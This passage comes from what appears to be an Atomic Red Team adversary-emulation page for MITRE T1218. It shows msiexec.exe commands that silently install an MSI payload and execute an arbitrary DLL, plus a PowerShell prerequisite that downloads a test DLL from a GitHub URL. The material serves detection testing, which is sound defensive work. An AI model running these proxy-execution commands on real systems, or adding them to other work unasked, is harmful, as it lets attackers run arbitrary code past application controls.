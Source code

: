 
#### Attack Commands: Run with `command_prompt`! 


```cmd
msiexec.exe /q /i "#{msi_payload}"
```






<br/>
<br/>

## Atomic Test #6 - Msiexec.exe - Execute Arbitrary DLL
Execute arbitrary DLL file stored locally. Commonly seen in application installation.
Upon execution, a window titled "Boom!" will open that says "Locked and Loaded!". For 32 bit systems change the dll_payload argument to the Win32 folder.
By default, if the src folder is not in place, it will download the 64 bit version.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| dll_payload | DLL to execute | Path | PathToAtomicsFolder&#92;T1218&#92;src&#92;x64&#92;T1218.dll|


#### Attack Commands: Run with `command_prompt`! 


```cmd
msiexec.exe /y "#{dll_payload}"
```




#### Dependencies:  Run with `powershell`!
##### Description: T1218.dll must exist on disk at specified location (#{dll_payload})
##### Check Prereq Commands:
```powershell
if (Test-Path #{dll_payload}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{dll_payload}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/emrahkaya/atomic-red-team/raw/feature/v6/atomics/T1218/src/x64/T1218.dll" -OutFile "#{dll_payload}"
```




<br/>
<br/>
